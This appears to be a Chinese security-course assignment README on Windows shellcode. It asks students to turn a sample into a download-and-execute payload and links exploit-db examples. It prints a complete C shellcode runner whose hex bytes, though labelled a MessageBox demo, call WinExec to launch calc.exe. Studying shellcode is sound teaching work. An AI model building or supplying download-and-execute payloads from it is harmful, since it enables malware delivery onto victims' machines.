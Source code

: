 # ShellCode

1. 详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

## Windows

### [弹出MessagBox的参考示例代码](https://www.exploit-db.com/shellcodes/13828)

```c
/*
Title: Allwin MessageBoxA Shellcode
Date: 2010-06-11
Author: RubberDuck
Web: http://bflow.security-portal.cz
Tested on: Win 2k, Win 2003, Win XP Home SP2/SP3 CZ/ENG (32), Win Vista (32)/(64), Win 7 (32)/(64), Win 2k8 (32)
Thanks to: kernelhunter, Lodus, Vrtule, Mato, cm3l1k1, eat, st1gd3r and others
*/

#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    func = (int(*)()) code;
    (int)(*func)();
}
```
